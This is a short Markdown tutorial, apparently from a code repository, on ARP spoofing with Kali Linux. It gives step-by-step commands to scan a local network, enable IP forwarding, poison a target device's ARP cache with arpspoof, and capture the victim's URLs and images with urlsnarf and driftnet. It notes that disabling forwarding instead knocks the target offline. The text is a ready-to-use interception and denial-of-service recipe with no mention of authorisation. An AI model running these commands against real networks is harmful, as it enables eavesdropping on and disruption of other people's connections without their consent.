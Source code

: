 # Arp-spoofing


This tutorial assumes you are using kali, where these programs are already installed.

## Step 1

Run nmap or netdiscover to list the devices on the network.
 - `netdiscover -r 192.168.1.0/24` or whatever network range it is. This is good because it is live, and it updates as soon as new devices connect to the network.
```
nmap -vvv 192.168.1.0/24
```

## Step 2 

```
echo 1 > /proc/sys/net/ipv4/ip_forward
``` 
this command is fundamental. Without changing it to `1`you will only block the traffic, but not forward it. So that will bring down the connection for that person. Denial of service. If you want to do that make sure it is set to 0. If you want to intercept it make sure it is set to 1.

## Step 3

```
arpspoof -i wlan0 -t 192.168.1.1 192.168.1.105
```
  - `-i` is the interface flag. In this example we choose the wlan0 interface. Run `ifconfig` to see which interfaces you have available.
 - `-t` the target flag. It specifies your target. The first address is the router, and the second is the specific device you want to target.


## Step 4 - Read the traffic

 So now you are intercepting the traffic. You have a few choices how to read it. 
Use urlsnarf. 
```
urlsnarf -i wlan0
``` 
it will output all URLs.
```
driftnet -i wlan0
```
Driftnet is pretty cool. It let's you see all the images that is loaded in the targets browser in real time. Not very useful, but kind of cool.
 - wireshark. Just open wireshark and select the interface and start capturing.
 - Tcpdump. Also awesome.

